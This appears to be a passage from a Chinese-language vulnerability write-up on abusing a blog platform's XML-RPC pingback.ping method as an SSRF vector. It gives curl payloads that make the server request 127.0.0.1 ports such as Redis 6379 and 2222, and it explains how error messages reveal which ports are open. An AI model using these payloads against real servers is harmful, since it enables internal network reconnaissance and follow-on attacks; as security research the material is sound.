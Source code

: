 ## 三、漏洞利用

### 3.1 端口探测

所以，可以根据返回码，我们可以来探测端口。

- 返回`源地址服务器错误`，端口不开启。
- 返回`源地址不支持PingBack`或者其他错误，端口开启。

#### 3.1.1 探测Redis端口

```bash
curl "https://joychou.org/action/xmlrpc" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://127.0.0.1:6379</string></value></param><param><value><string>joychou</string></value></param></params></methodCall>'
```

返回：

```xml
<?xml version="1.0"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>16</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>源地址服务器错误</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

所以，这就很尴尬，php curl对`http://127.0.0.1:6379`发起请求，返回true，但是状态码返回不是200。导致输出的也是`源地址服务器错误`。所以应该就只能探测WEB端口了。类似Redis、FastCGI、Struts2就盲打吧…

而且用时间差测试，端口是否有无，时间差几乎一样。

#### 3.1.2 探测Web服务

python开一个2222的Web服务`python -m SimpleHTTPServer 2222`

payload:

```
curl "https://joychou.org/action/xmlrpc" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://127.0.0.1:2222</string></value></param><param><value><string>joychou</string></value></param></params></methodCall>'
```
